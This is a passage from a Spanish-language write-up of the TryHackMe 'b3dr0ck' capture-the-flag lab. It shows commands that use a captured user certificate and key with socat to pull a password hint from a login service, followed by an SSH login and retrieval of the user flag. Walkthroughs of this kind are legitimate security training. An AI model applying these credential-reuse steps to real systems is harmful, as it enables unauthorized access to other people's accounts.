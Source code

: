 ```console
kyRczMI9Z+8lQO/rt6WmwYIBNhChGhkv0+5xNQt1aIxV2xhz27oGBS32GqKGYMek
sDYWHwJVvLHGPEMoaeQ4+mFlIHlsaE6p6g8=
-----END CERTIFICATE-----
barney@b3dr0ck:/home$
```

Como hemos hecho con el usuario *barney*, copiamos la clave y el certificado de *fred* y creamos con ellos los ficheros <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">fred.key.pem</code>&nbsp;&nbsp; y <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">fred.cert.pem</code>&nbsp;respectivamente.

Volvemos a tirar de **socat** y el servicio de login corriendo en el puerto *54321/tcp* para hacernos con la contraseña de *fred*.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/b3dr0ck]
└─$ socat stdio ssl:10.10.40.42:54321,cert=fred.cert.pem,key=fred.key.pem,verify=0


 __     __   _     _             _____        _     _             _____        _
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)



Welcome: 'usrshareabccertsfredcertificatepem' is authorized.
b3dr0ck> ls
Unrecognized command: 'ls'

This service is for login and password hints
b3dr0ck> help
Password hint: Yab[...]00! (user = 'usrshareabccertsfredcertificatepem')
b3dr0ck>
```

Conectamos por **ssh**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/b3dr0ck]
└─$ ssh fred@10.10.40.42
fred@10.10.40.42's password:
fred@b3dr0ck:~$ ls
fred.txt
fred@b3dr0ck:~$ cat fred.txt
THM{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
fred@b3dr0ck:~$
```

Obtenemos la flag correspondiente al usuario *fred*. Como ya hemos hecho con *barney*, buscamos los binarios disponibles para este segundo usuario.

